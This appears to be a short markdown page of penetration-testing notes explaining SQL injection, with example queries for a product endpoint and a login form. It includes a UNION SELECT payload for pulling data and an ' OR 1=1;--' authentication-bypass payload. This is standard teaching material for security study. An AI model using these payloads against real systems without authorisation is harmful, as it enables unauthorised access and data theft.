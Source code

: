 # SQL Injection
Similar to XSS this occurs when developers have not properly santized user inputs.
- [Enumeration Techniques](../../Scanning/Enumeration/sql.md)

## Injection Example
Assume an application has an endpoint like:
```sh
/products/2
```

The SQL might look this, where `2` is the value controlled by the user in the URL:
```sql
SELECT name,description from Products where id = 2;
```

## Selecting Data
Change the value to 0 so that no original data is returned. For a UNION SELECT statement to work, the original table (A) columns need to match your "unioned" table (B). This may be trial and error.
```sql
0 UNION SELECT 1,2
```

## Authentication Bypass
The following example allows a user to inject their own query into both the username and password fields:
```sql
select * from users where username='%username%' and password='%password%' limit 1;
```

A simple bypass. Anything after the `;--` is a comment and ignored:
```sql
select * from users where username='%username%' OR 1=1;-- and password='%password%' limit 1;
```


